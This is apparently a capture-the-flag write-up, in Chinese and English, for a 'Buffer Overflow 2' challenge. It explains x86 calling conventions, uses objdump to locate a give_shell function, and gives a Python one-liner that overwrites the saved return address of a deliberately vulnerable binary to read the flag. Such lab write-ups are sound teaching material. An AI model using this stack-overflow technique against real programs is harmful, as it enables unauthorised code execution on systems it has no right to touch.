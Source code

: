 # Buffer Overflow 2
x86的[calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions)
 * Calling function：
  1. push參數到stack上(reverse order)
  2. push RET位址(目前%eip)
  3. jump到function位址
 * Called function：
  1. push old frame pointer(%ebp)
  2. 把frame pointer(%ebp)設成目前stack指到的位置(%esp)
  3. push local變數
 * Returning function：
  1. reset prev stack frame：%esp = %ebp, %ebp = (%ebp)
  2. jump回RET位址：%eip = 4(%esp)
 ![image](buf_gen1.png)
 * x86是little-endian

## Solve
 * 使用gdb或objdump找到give_shell位址
```
$ objdump -d overflow2 | grep give_shell
080484ad <give_shell>:
```
 * 了解目前stack長相
  * 用objdump 看assembly code
```
$ objdump -d bufferoverflow2
...
<vuln>
push %ebp
...
pushl %0x8(%ebp) ; arument of strcpy
...
push %eax; argument of strcpy
call <strcpy@plt>
...
ret
...
<main>:
push %eax ; ret addr
call 80484e2 <vuln>
...
```
  * stack：
```
  <ret addr>
  <old %ebp>
  <strcpy arg>
  <strcpy arg>
  <buf ...
  16 bytes>
```
  * 取得flag
```
$ ./overflow2 $(python -c 'print "A"*16 + "A"*3*4 + "\xad\x84\x04\x08"')
$ ls
flag.txt    Makefile    overflow2   overflow2.c
$ cat flag.txt
controlling_%eip_feels_great
```

## Reference
 * [駭客雜誌上的教學](http://phrack.org/issues/49/14.html#article)
